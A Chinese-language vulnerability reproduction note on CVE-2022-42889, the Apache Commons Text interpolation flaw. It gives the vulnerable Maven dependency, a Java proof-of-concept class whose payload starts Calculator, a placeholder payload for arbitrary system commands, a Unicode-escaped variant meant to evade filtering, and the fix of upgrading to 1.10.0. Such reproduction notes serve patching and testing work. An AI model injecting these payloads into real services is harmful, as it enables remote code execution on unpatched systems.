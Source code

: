 # Apache Commons Text 远程代码执行（CVE-2022-42889 ）

## 来源描述：
https://seclists.org/oss-sec/2022/q4/22
CVE-2022-42889：由于不安全的插值默认值，1.10.0 之前的 Apache Commons Text 在应用于不受信任的输入时允许 RCE。

## POC：
`String payload = "sssa${script:js:new java.lang.ProcessBuilder(\"任意系统命令\").start()}asdasd";`

这个漏洞类似于Log4shell，脏数据插入到任何地方，只要进入到stringSubstitutorInterpolator.replaceXXX方法就可触发。

## 影响范围：
Apache Commons Text < 1.10.0【2022.09.28之前所有版本】

## 复现：
```
引入漏洞组件：

<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-text</artifactId>
    <version>1.9</version>
</dependency>
```
## 复现POC类：
```
package org.joychou.controller;
import org.apache.commons.text.StringSubstitutor;

public class SLF {

    public static void main(String[] args)  {
        System.out.println("Welcome to the POC of RCE on Apache Commons Text below 1.10.0");
// 这种用法才存在漏洞
        StringSubstitutor stringSubstitutorInterpolator = StringSubstitutor.createInterpolator();
        String payload = "sssa${script:js:new java.lang.ProcessBuilder(\"/Applications/Calculator.app/Contents/MacOS/Calculator\").start()}asdasd";
//        stringSubstitutorInterpolator.replace(payload); // exploit
//        stringSubstitutorInterpolator.replaceIn(new StringBuffer(payload)); //exploit

        System.out.println("The above payload will start a Calculator hence we can execute any code we want");

    }
}
```

## 修复方式：
-- 升级到1.10.0版本

类似的：
GHSL-2022-017: Arbitrary command execution through Apache Commons Configuration - CVE-2022-33980

https://securitylab.github.com/advisories/GHSL-2022-017_Apache_Commons_Configuration/

## POC

```
        String payload1 = "sssa${script:js:new java.lang.\\u0050\\u0072\\u006f\\u0063\\u0065\\u0073\\u0073\\u0042\\u0075\\u0069\\u006c\\u0064\\u0065\\u0072(\"open -a Calculator\".split(\" \")).\\u0073\\u0074\\u0061\\u0072\\u0074()}asdasd";
保持前面部分不变，后面的字符串可以unicode。
```

